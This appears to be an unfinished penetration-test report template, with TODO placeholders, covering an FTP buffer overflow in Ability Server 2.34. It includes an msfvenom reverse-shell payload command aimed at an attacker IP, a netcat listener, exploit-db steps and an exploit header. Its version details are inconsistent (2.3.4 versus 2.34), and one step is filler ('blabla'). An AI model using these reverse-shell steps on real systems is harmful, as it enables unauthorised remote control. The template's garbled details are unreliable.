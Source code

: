 **FTP Enumeration**
TODO Upon manual enumeration of the available FTP service on port 21, we noticed it was running an outdated version 2.3.4 that is prone to the remote buffer overflow vulnerability.

### Initial Access - Buffer Overflow
**Vulnerability Explanation:**
TODO Ability Server 2.34 is subject to a buffer overflow vulnerability in STOR field.
Attackers can use this vulnerability to cause arbitrary remote code execution and take completely control over the system.
When performing the penetration test, we noticed an outdated version of Ability Server running from the service enumeration phase.
In addition, the operating system was different from the known public exploit.
A rewritten exploit was needed in order for successful code execution to occur.
Once the exploit was rewritten, a targeted attack was performed on the system which gave us a low-privilege access over the system.

**Vulnerability Fix:**
TODO The publishers of the Ability Server have issued a patch to fix this known issue
It can be found here: <http://www.code-crafters.com/abilityserver/> 

**Severity:** Critical

**Steps to reproduce the attack:** TODO The operating system was different from the known public exploit. A rewritten exploit was needed in order for successful code execution to occur. 

1. Download the original exploit code from here: <https://www.exploit-db.com/exploits/588> 
2. Generate a shellcode payload with a reverse shell pointing to the attacker IP address and listening port with the below `msfvenom` command:

```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=445 -b '\x00\xd9' -f py -v sc
```

3. Generate a new buffer variable because operating system blabla
4. Change the shellcode and the buffer variable in the previously downloaded exploit code. 
5. Start a netcat listener on the same port as in step 2:

```bash
nc -lvnp 445
```

7. Launch the exploit with the below command

```bash
python2 exploit.py
```

8. You should receive a shell from the target machine:

```bash
nc connection received from XXXXXXX
C:> whoami
testreport
```


**Full Proof of Concept Code:** TODO modifications to the existing exploit are highlighted in red.

```python
###################################
# Ability Server 2.34 FTP STOR Buffer Overflow   #
# Advanced, secure and easy to use FTP Server. #
# 21 Oct 2004 - muts                                      #
###################################
# D:\BO>ability-2.34-ftp-stor.py                       #
###################################
# D:\data\tools>nc -v 127.0.0.1 4444               #
# localhost [127.0.0.1] 4444 (?) open               #
# Microsoft Windows XP [Version 5.1.2600]        #
# (C) Copyright 1985-2001 Microsoft Corp.        #
# D:\Program Files\abilitywebserver>                #
```